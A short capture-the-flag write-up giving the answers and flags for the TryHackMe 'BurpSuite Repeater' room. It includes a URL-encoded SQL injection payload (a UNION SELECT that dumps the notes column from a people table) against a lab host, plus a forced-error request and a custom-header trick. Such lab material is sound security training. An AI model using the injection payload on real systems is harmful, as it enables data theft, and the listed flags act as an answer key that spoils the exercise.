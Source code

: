 # Solution

## URL
- [BurpSuite Repeater](https://tryhackme.com/room/burpsuiterepeater)

## Steps

### Task 4:
#### Which view option displays the response in the same format as your browser would?
1. The answer is `render`.

### Task 6:
#### Send the request. What is the flag you receive?
1. Add a header in the request to `http://10.10.210.167/` called `FlagAuthorised` and set it's value to `True`.
2. In the response you will receive the flag: `THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}`.

### Task 7:
#### What is the flag you receive when you cause a 500 error in the endpoint?
1. In repeater go to `/products/-1` for the flag: `THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}`.

### Task 8:
#### What is the flag?
1. In the repeater go to `/about/0%20UNION%20SELECT%20group_concat(notes,'<br>'),2,3,4,5%20FROM%20people`.
2. In the response you will find the flag: `THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}`.